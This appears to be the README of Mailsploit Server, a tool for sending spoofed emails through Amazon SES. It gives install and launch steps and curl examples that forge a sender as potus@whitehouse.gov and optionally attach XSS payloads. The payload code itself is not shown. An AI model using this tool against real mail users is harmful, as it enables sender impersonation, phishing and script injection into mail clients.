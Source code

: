 ![Mailsploit logo](https://raw.githubusercontent.com/pwnsdx/Mailsploit/master/resources/logo.png?fuckgithubcache=1)

### Mailsploit Server

*Note*: You will need an Amazon SES account with a verified domain in order to use the tool.

#### How to install

1. Clone the repository
2. Edit `originalFrom` in `src/main/Config.ts` with your verified SES email address.
3. Run the following commands in the terminal:
```
yarn install && yarn dist # Require yarn
```

#### How to launch the web server

1. Run the following command in the terminal:
```
SES_USERNAME=[Amazon SES Username] SES_PASSWORD=[Amazon SES Password] node dist/commonjs/index.js
```
2. That's it. The server will run on localhost:8081

#### How to use it

You can do a POST request containing `sender`, `receiver` and `options` (from 0 to 13) parameters to the `/process` endpoint.

Example using cURL (payload 3 without XSS):

```
curl --url http://localhost:8081/process --data "sender=potus@whitehouse.gov&receiver=sabri@riseup.net&options=2"
```

or, all the payloads with XSS:

```
curl --url http://localhost:8081/process --data "sender=potus@whitehouse.gov&receiver=sabri@riseup.net&xss=true&options=-1"
```